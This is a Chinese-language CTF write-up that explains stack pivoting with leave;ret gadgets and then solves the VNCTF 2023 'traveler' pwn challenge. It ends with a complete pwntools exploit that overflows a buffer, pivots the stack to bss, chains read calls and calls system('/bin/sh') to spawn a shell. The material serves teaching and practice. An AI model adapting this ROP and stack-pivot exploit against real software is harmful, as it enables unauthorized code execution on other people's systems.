









[栈迁移参考](https://xz.aliyun.com/t/12189?time__1311=mqmhD5DK7KYIOxBdPkGkbD8jDk85eG8KjeD&alichlgref=https://xz.aliyun.com/t/12189#toc-2)
[栈迁移参考](https://www.wangan.com/p/11v78452537606bd#ciscn_2019_es_2)
# 栈迁移
顾名思义，就是将当前的栈帧迁移到别的位置，即 rsp 和 rbp 被修改到某些位置
核心思想：先在某块内存区域写入 gadget，然后利用第一次 leave_ret 将 rbp 修改为之前溢出保存的 rbp；ret 再次执行 leave_ret，将 rsp 的值设为 rbp，然后 pop rbp 将写入 gadget 的内存区域的前八个字节作为新的 rbp，ret 执行写入 gadget 的内存区域地址 + 8 处的指令。（如果要多次栈迁移，写入 gadget 的内存区域的前八个字节就作为下一次要迁移到的 rsp 的地址，最后部分同样是 leave_ret；记得在 leave_ret 之前还需要提前准备好 rsp 要迁移到的地址处的 gadget 内容，否则虽然 leave_ret 迁移过去了，ret 却可能无法执行。）
## 具体流程
- leave 相当于 mov rsp,rbp pop rbp;
- ret 相当于 pop rip;
- mov rsp,rbp 将 rbp 的值赋给 rsp 寄存器
- pop rbp 将栈顶的值弹出到 rbp 寄存器

**首先要确保栈溢出能够覆盖 ebp 和 ret_addr**
1. 每个函数结束时都会执行 leave; ret，将 rbp 的值赋给 rsp，然后把栈顶的值（此时存放的是之前保存的 rbp）给 rbp
2. 溢出修改了原来保存的 rbp 之后，执行 leave 时，rbp 被修改为溢出修改后的 rbp；返回地址也应该事先被溢出修改为 leave; ret 的地址
3. 执行返回地址时，rsp 也被移到修改后的 rbp 的位置。之后将当前 rsp 栈顶的内容弹出给 rbp，rbp 被再次修改，然后执行当前栈顶内容所指向位置的指令

总结
- . 第一次 leave; ret; 将 rbp 修改为之前溢出保存的 rbp
- . 第二次 leave; ret; 将 rsp 修改为修改后的 rbp 的值，并再次 pop 修改 rbp 的内容，ret 指令随后指向当前栈顶内容所指向地址处的指令（这样可以实现多次栈迁移：只需保证 leave 时弹出的内容是你需要去的位置，最后只需 leave; ret 就能继续执行对应位置的 ROP 链）


# VNCTF 2023 traveler libc-2.27
# 检查
可以栈溢出

# 源码
## main 函数
存在明显的栈溢出，且只能溢出 16 个字节，即只能修改保存的 rbp 值和返回地址
## 全局变量地址

##  局部变量地址



# PIE 保护
PIE 保护会修改程序运行时的加载地址，但程序内部各段之间的相对偏移不会改变。可以理解为改变了程序放入内存时的起始地址，只是起点变了，然后程序原样加载，程序本身没有变化

所以如果开启了 PIE，程序内部不会变化，但由于基址变了，各段的位置就变成了原程序的相对偏移加上起始地址
## 开启 PIE

## 关闭 PIE

由于 traveler 文件本身关闭了 PIE，所以可以用 IDA 打开查找 gadget，所有变量的位置也都可以在 IDA 中找到
# 思路
由于程序中有 system 函数且关闭了 PIE，可以直接调用 IDA 中对应的 system 地址。如果可执行文件中没有 system 函数，可能就需要 libc 基址 + system 偏移。既然题目提供了 system 函数，那就用它

对于 /bin/sh 参数：程序本身肯定需要栈迁移，否则溢出范围太小，放不下构造参数的 gadget 和函数 gadget，所以肯定要在迁移目的地填入 gadget。至于 /bin/sh 的地址，可以在全局变量处输入 /bin/sh，由于知道全局变量的地址，也就知道了 /bin/sh 的地址

 **注意**
此时会报错，因为 RSP 对应的位置不可写

这部分地址只允许读不允许写，而当前操作需要写，所以报错

可以在调用 system 之前抬高 RSP 的值来避免，而再次修改 RSP 就需要再进行一次栈迁移


结合调用 system 时的 RSP 和报错时的 RSP，RSP 减少了 0x300 多。所以为了保险，我打算将 RSP 再次迁移到 +0x400 的位置；之后发现还是会出现一些 bug，所以以防万一，最好尽量调大

首先在 main 结束前将保存的 rbp 修改为 bss 中可以写入 ROP 链的位置，并将返回地址设为 leave_re，使 rsp 能够移到已经写好 ROP 链的地方。

这里最终 rbp 被修改为我们溢出保存的 rbp，main 结束时再次执行 leave_ret。main 结束之前还会执行一个 read 函数向 bss 段写入数据，此时就写入对应的 ROP 链。第一个值是之后要赋给 rbp 的新值，后面是一系列 gadget。前面提到，执行 system 时 rsp 不能太低，如果这里的 gadget 直接是 system 的 gadget，rsp 就会偏低，出现之前的情况，所以需要再迁移一次栈，修改 rsp 的值，然后再执行对应的 ROP 链。所以这里的 gadget 应该是能够进行栈迁移的，即之后要改成的 rsp 值 + 修改参数的 gadget + read 函数 + leave_ret。由于我想直接利用程序自身的 gadget 来构造参数，可以把原函数开始准备调用 read 函数的地址作为调用 read 的地址，这样构造参数就不用担心找 gadget 的问题；或者直接利用 read 函数之后 rdi、rsi、rdx 没有被修改的特点，只需要修改 rsi，而恰好存在这样的 gadget（main 函数 ret 结束前最后调用的函数就是向 bss 段输入数据的函数）。这里我选择第二种方法，输入为 bss 高地址 + pop_rsi_ret + 参数 + read_plt + leave_ret

但这里出现了一个问题：对应的输入大于 0x28。嗯，那怎么办？

要是能少一个 8 字节就好了。由于 pop_rsi_ret + 参数 + read_plt + leave_ret 都缺一不可，只有这样才能成功迁移栈并把 ROP 链写到 bss 高地址，所以如果能只用这些 gadget 再输入一次，同时保证 ROP 链能连续执行就好了

这里有一个非常巧妙的方法：先 read，在 read 之后那条指令的位置写入 gadget，这样 read 结束时就会执行之前写入的 gadget，因为在 read 函数执行 ret 时，内容已经写到了对应位置。注意这里调用的 read 函数不能用 call read，否则会压入返回地址，即 call read 指令的下一条指令的地址，导致无法形成正常的 ROP 链。

所以第一次输入为 bss 高地址 + pop_rsi_ret + 参数 + read_plt（这里的参数是第二次输入的地址）
然后第二次输入为 pop_rsi_ret + 参数 + read_plt + leave_ret（这里的参数是 bss 高地址）

最后输入的 gadget 为 /bin/sh\x00 + pop_rdi_ret + 参数 + system 函数地址（参数是 /bin/sh 的地址）

# exp

```c
from pwn import*
context(os="linux",arch="amd64",log_level="debug")
t=process("./traveler")
elf=ELF("./traveler")
#gdb.attach(t,"b ,main")
bss_addr=0x00000000004040A0
pop_rdi=0x00000000004012c3
system_addr=0x0000000000401090
pop_rsi_r15_ret = 0x004012c1
leave_ret=0x0000000000401253
read_addr=elf.plt["read"]
ret = 0x40101a

payload=b"a"*0x20+p64(bss_addr)+p64(leave_ret)
t.sendafter(b"who r u?\n",payload)

payload=p64(bss_addr+0x700)+p64(pop_rsi_r15_ret)+p64(bss_addr+0x28)+p64(0)+p64(read_addr) #分两次的原因原来的rdx是0x28,如果整合到一个gadget，需要多八个字节，所以分两次read
t.sendafter(b"How many travels can a person have in his life?\n",payload)

payload=p64(pop_rsi_r15_ret)+p64(bss_addr+0x700)+p64(0)+p64(read_addr)+p64(leave_ret)
t.send(payload)
payload=b"/bin/sh\x00"+p64(pop_rdi)+p64(bss_addr+0x700)+ p64(ret) +p64(system_addr)
t.send(payload)                  


t.interactive()
```



